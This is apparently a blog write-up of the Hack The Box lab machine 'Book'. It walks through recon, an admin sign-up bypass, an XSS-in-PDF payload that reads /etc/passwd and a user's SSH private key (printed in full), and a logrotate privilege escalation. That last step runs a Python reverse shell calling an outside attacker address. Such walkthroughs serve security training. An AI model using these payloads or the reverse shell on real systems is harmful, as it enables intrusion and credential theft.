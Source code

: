 ```yaml
---
title: "[HTB] Book WriteUp"
date: 2020-07-11T12:00:00-00:00
categories:
  - writeup
excerpt: "Book is a medium difficulty machine on Hack the Box. As always we begin by running an nmap scan."
tags:
  - HTB
  - Hack The Box
  - Book
  - WriteUp
---
```


![Book]({{ site.url }}{{ site.baseurl }}/assets/book/book.jpg)


Book is a medium difficulty machine on Hack the Box. 

As always we begin by running an nmap scan.

```bash
nmap -sC -sV -oN scans/nmap 10.10.10.176
```
```bash
# Nmap 7.80 scan initiated Thu May 14 18:48:42 2020 as: nmap -sC -sV -oN scans/nmap 10.10.10.176
Nmap scan report for 10.10.10.176
Host is up (0.030s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 14 18:48:50 2020 -- 1 IP address (1 host up) scanned in 8.18 seconds

```


There are two open ports 22 and 80, lets look at the website on port 80.

![Login]({{ site.url }}{{ site.baseurl }}/assets/book/login.jpg)

We get a login page, so lets sign up. When we sign in we arrive at a Library's website. 

![Library]({{ site.url }}{{ site.baseurl }}/assets/book/library.jpg)

After poking around a bit we find there is an admin account admin@book.htb on the contact page. We also see that the user's page signifies the users role. There is also an upload function on the collections page.

Running Dirbuster also finds a /admin/ page.

We can try signing up for an account using the existing admin@book.htb account. Using BurpSuite we must pad out the request to 21 characters in order to bypass the JavaScript form validation. We can do this with spaces, the final character is arbitrary.

```
name=admin&email=admin@book.htb      X&password=password1
```

After logging in to the admin account we see in the user settings that the account only has 'User' role. Using the admin credentials on the /admin/ page doesn't work. If we repeat the process but change the name to admin1 we are able to login to the admin page. 

On the Collections page, the admin is able to download the collection as a PDF. The site generates these PDFs using the info supplied by the user, so we can use DOM manipulation to execute javascript, as described in this article 

[www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)

The following payload will return /etc/passwd

```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

After downloading the collections PDF we get /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:GnatsBug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd NetworkManagement,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemdResolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
reader:x:1000:1000:reader:/home/reader:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

We can see there is a user called reader, we can try to get the SSH key for this user by modifying our payload slightly.

```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```

After downloading the collections PDF again we get an SSH key:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
-----END RSA PRIVATE KEY-----
```


We can now SSH in as reader@10.10.10.176.

We find User.txt in the home folder.

![Reader]({{ site.url }}{{ site.baseurl }}/assets/book/reader.jpg)

### Priv Esc

I start by running linPeas, which finds some interesting things

![linpeas]({{ site.url }}{{ site.baseurl }}/assets/book/linpeas.jpg)

We see that this machine is vulnerable to Logrotate exploitation. We can write to the log files in the backups folder in reader's home directory. Following the links from linPeas we get an exploit that we can use. [Logrotten](https://github.com/whotwagner/logrotten).

We transfer this to the target machine using wget. Then compile it:

```bash
reader@book:~ gcc -o logrotten logrotten.c
```

Then we will need a payload, We can use a python reverse shell from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). 

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.53",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Then set up a listener on the attacking machine.

```bash
nv -lvnp 9001
```

Then execute the exploit

```bash
reader@book:~ ./logrotten -p ./payloadfile /home/reader/backups/access.log
Waiting for rotating backups/access.log...
```

If we now write random data to the log, it should trigger our payload.

```bash
head -c 10M < /dev/urandom > access.log
```

And we get a reverse shell!

I found the shell was very unstable so had to quickly cat root.txt before the shell dropped.